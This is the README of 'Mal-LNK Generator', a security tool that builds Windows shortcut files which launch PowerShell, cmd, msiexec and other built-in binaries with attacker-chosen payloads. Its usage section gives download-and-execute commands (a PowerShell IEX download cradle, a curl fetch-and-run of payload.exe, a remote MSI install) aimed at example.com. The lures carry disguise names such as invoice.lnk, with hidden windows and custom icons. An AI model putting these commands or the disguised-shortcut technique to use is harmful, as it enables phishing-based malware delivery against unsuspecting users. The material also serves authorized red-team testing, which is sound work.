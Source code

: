 # Mal-LNK Generator


![image](https://github.com/user-attachments/assets/069e0dd8-1d8d-4a31-929c-a921be1fe948)




A security research tool for generating customized LNK files that leverage LOLBINs (Living Off The Land Binaries) for red team assessments and security testing.


## Overview

Mal-LNK Generator is a powerful utility designed for security professionals to create Windows shortcut (.lnk) files that simulate various techniques used in security assessments. It supports multiple LOLBINs, custom payloads, and detailed configuration options to assist in controlled security testing scenarios.

## Features

- **Multiple LOLBIN Support**: Includes 10+ common Windows binaries frequently used in security testing:
  - cmd.exe
  - powershell.exe
  - wscript.exe
  - mshta.exe
  - regsvr32.exe
  - rundll32.exe
  - explorer.exe
  - bitsadmin.exe
  - certutil.exe
  - msiexec.exe

- **Flexible Configuration Options**:
  - Custom command-line parameters
  - Configurable window style (normal, maximized, or minimized)
  - Custom working directories
  - Custom icons for better social engineering simulations
  - Support for custom binaries not in the predefined list

- **Multiple Operation Modes**:
  - Interactive mode with guided prompts for easier usage
  - Command-line mode for automation and integration with other tools
  - List mode to display all available LOLBINs and their configurations

## Installation

### Prerequisites

- Go 1.16 or higher
- Windows operating system (for creating valid LNK files)

### Building from Source

1. Clone the repository:
```
git clone https://github.com/yourusername/mal-lnk-generator.git
cd mal-lnk-generator
```

2. Initialize Go module and download dependencies:
```
go mod init mal-lnk-generator
go mod tidy
```

3. Build the executable:
```
go build -o mal-lnk-generator.exe
```

## Usage

### Interactive Mode

Run the tool in interactive mode for a guided, menu-driven experience:

```
mal-lnk-generator -interactive
```

### Command Line Mode

Generate an LNK file using PowerShell with a specific payload:

```
mal-lnk-generator -bin 2 -payload "IEX (New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')" -output "document.lnk"
```

Create a shortcut with a custom binary:

```
mal-lnk-generator -custom-path "C:\Path\To\Application.exe" -custom-params "-arg {payload}" -payload "actual command" -output "custom.lnk"
```

### List Available LOLBINs

Display all available LOLBINs and their configurations:

```
mal-lnk-generator -list
```

### Common Examples

#### Creating a stealthy PowerShell downloader:

```
mal-lnk-generator -bin 2 -payload "IEX (New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')" -output "invoice.lnk" -window 7
```

#### Creating a CMD-based file downloader:

```
mal-lnk-generator -bin 1 -payload "curl -s http://example.com/payload.exe -o %temp%\payload.exe && %temp%\payload.exe" -output "statement.lnk"
```

#### Using MSI installer for payload execution:

```
mal-lnk-generator -bin 10 -payload "http://example.com/package.msi" -output "update.lnk"
```

## Command Line Options

| Flag | Description | Default |
|------|-------------|---------|
| `-interactive` | Run in interactive mode | `false` |
| `-list` | List available LOLBINs | `false` |
| `-bin` | Index of LOLBIN to use (1-based) | `0` |
| `-payload` | Payload or command to execute | `""` |
| `-output` | Output LNK file path | `"malicious.lnk"` |
| `-workdir` | Working directory for the shortcut | `""` |
| `-icon` | Path to icon file | `""` |
| `-window` | Window style (1=normal, 3=maximized, 7=minimized) | `7` |
| `-custom-path` | Custom binary path (for custom binary) | `""` |
| `-custom-params` | Custom parameters (for custom binary) | `""` |
| `-custom-desc` | Custom description (for custom binary) | `"Custom Shortcut"` |

## Disclaimer and Legal Notice

This tool is provided for legitimate security research, education, and authorized penetration testing only. Misuse of this software may violate laws and regulations.

**The user assumes all responsibility for the use of this tool:**

- Only use on systems you own or have explicit permission to test
- Document all testing activities in accordance with proper security assessment procedures
- Remove all artifacts from target systems after testing is complete
- Do not use for unauthorized access or malicious purposes

The developers are not responsible for any illegal use of this software.

## License

[MIT License](LICENSE)

## Contributing

Contributions are welcome! Please feel free to submit a Pull Request.

